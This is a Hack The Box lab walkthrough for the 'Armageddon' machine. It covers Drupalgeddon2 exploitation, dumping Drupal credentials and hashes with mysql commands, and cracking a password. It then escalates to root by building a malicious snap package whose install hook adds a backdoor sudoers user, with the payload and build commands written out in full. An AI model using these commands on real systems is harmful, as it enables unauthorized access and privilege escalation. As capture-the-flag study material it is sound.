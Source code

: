 ```yaml
---
title: "[HTB] Armageddon - Walkthrough"
layout: post
tags: HTB
---
```

# Main points
* [#^6b0a8d|dirty_sock vulnerability (snap)](#5E6b0a8d%7Cdirty_sock%20vulnerability%20%28snap%29)
*  [#^dd1865|drupalgeddon2](#%5Edd1865%7Cdrupalgeddon2)

# Enumeration
As always we start with nmap and find these open ports

* 22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
* 80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)

We see that the webserver is running Drupal 7, let's look on google if there are known vulnerabilities for this version of Drupal.

We find this github repo named [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)
and these exploits : ^dd1865

* https://www.exploit-db.com/exploits/44448

* https://www.exploit-db.com/exploits/44449

* https://www.exploit-db.com/exploits/44482
We try the metasploit module drupalgeddon
and we go to `sites/default/` we see settings.php and grab database creds

|Service|username|password|
|-----|-----|-----|
|mysql|drupaluser|CQHEy@9M\*m23gBVj|
|drupal hash|hash salt|4S4JNzmn8lq4rqErTvcFlV4irAJoNqUmYy_d24JEyns|

We connect to mysql database with our creds
```bash
mysql -u drupaluser -p CQHEy@9M*m23gBVj -e "show databases;"
```

![Pasted image 20210709023623.png](../Pasted%20image%2020210709023623.png) We see that we have a `drupal` database, we see that it has a `user` table, let's dump it.
```bash
mysql -u drupaluser -p CQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
```

We get the hash of `Brucetherealadmin`

|user|hash|
|----|----|
|brucetherealadmin|\$S\$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt|
let's crack the hash with John.

we get the password `booboo`, let's connect with ssh. We get the user flag.

# Priv Esc
### [dirty_sock vulnerability](https://initblog.com/2019/dirty-sock/)

^6b0a8d

Let's see if our user can run something as root with `sudo -l`
we can run `snap`
![Pasted image 20210709024313.png](../Pasted%20image%2020210709024313.png)

So to get root we have to install a malicious snap package and install it as root. Let's check [GTFOBins](https://gtfobins.github.io/gtfobins/snap/)
We need to install [fpm](https://github.com/jordansissel/fpm) to create our malicious snap package

We make our malicious script that will create a suer with sudo permissions

```bash
$ cat - > script
useradd hackerman -m -p '$6$oMAzzKTUH62kHvSC$rYnR4DAyvuLxTdH5QPSXXrNVqZlug.ZY2a.Q2hbBus4R6q57MAfQhrcPy/d/FRFRhUSdh1wO.3yn1nG/WVejq1' -s /bin/bash
usermod -aG sudo hackerman
echo "hackerman    ALL=(ALL:ALL) ALL" >> /etc/sudoers
```
Note: The encrypted password is generated with python `crypt.crypt("password")`

```bash
COMMAND=$(cat script)
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n pwn -s dir -t snap -a all meta
```
And then download it to the target with `curl` from python HTTP server.
![Pasted image 20210709025549.png](../Pasted%20image%2020210709025549.png)

On the victim machine we run 
```bash
sudo snap install pwn_1.0_all.snap --devmode
```
We wait for the installation, and we change the user
`su hackerman` we can sudo to `root`
We have root, and we get the flag.